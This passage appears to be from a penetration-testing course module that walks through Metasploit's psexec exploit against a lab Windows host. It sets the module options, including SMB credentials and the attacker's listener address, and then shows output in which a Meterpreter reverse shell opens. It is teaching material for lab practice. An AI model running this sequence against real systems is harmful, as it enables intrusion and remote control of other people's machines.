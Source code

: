 ```shell
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

This is one area where Metasploit shines in terms of ease of use. In the output of the module options, we see various options and settings with a description of what each setting means. We will not be using `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` and `SERVICE_NAME` in this section. Notice how this particular exploit will use a reverse TCP shell connection utilizing `Meterpreter`. A Meterpreter shell gives us far more functionality than a raw TCP reverse shell, as we established in this module's earlier sections. It is the default payload that is used in Metasploit.

We will want to use the `set` command to configure the following settings as such:

#### Setting Options

Automating Payloads & Delivery with Metasploit

```shell
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

These settings will ensure that our payload is delivered to the proper target (`RHOSTS`), uploaded to the default administrative share (`ADMIN$`) utilizing credentials (`SMBPass` & `SMBUser`), then initiate a reverse shell connection with our local host machine (`LHOST`).

These settings will be specific to the IP address on your attack box and on the target box. As well as with credentials you may gather on an engagement. We can set the LHOST (local host) VPN tunnel IP address or the VPN tunnel interface ID.

#### Exploits Away

Automating Payloads & Delivery with Metasploit

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```